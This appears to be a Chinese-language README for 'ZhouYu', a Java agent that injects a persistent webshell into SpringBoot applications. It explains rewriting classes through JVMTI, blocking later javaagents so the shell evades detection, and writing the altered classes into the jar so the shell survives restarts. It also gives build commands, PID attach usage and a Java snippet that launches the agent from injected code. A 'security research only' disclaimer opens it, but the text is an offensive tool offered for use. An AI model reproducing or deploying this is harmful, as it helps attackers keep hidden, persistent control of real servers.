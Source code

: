 *工具仅用于安全研究，禁止使用工具发起非法攻击，造成的后果使用者负责*

### ZhouYu -> 周瑜

Java - SpringBoot 持久化 WebShell

背景：后Spring时代，SpringBoot jar部署模式下，一般没有了JSP，所有的模板都在jar内，当大家都热衷于内存马的时候，发现很容易被查杀（网上查杀方式无外乎都是利用JVMTI重加载class的javaagent方式），并且重启后丢失！

1. ZhouYu带来新的webshell写入手法，通过javaagent，利用JVMTI机制，在回调时重写class类，插入webshell，并通过阻止后续javaagent加载的方式，防止webshell被查杀

2. 修改的class类插入webshell后，通过持久化到jar进行class替换，达到webshell持久化，任你如何重启都无法甩掉

### 一、打包编译

命令：
```text
gradle :agent:shadowJar
```
或
```text
./gradlew :agent:shadowJar
```

编译后得到 agent/build/libs/agent-xxx.jar，即ZhouYu.jar

### 二、使用方式

两种场景：

1. 当你知道jvm pid时，并且能写入临时文件（ZhouYu.jar），一般这种场景不太常见，测试场景比较多
```text
java -jar ZhouYu.jar 23232，23232为需要attach的jvm进程号！
```

2. 能执行一小段代码（内存shell的原理一般是反序列化时加载一段恶意字节码）

先把编译后得到的ZhouYu.jar写到临时目录，例：/tmp/ZhouYu.jar

接着执行下面代码：
```
try {
  String pid = java.lang.management.ManagementFactory.getRuntimeMXBean().getName();
  int indexOf = pid.indexOf('@');
  if (indexOf > 0) {
    pid = pid.substring(0, indexOf);
    Runtime.getRuntime().exec(String.format("java -jar /tmp/ZhouYu.jar %s", pid));
  }
} catch (Throwable throwable) {

}
```
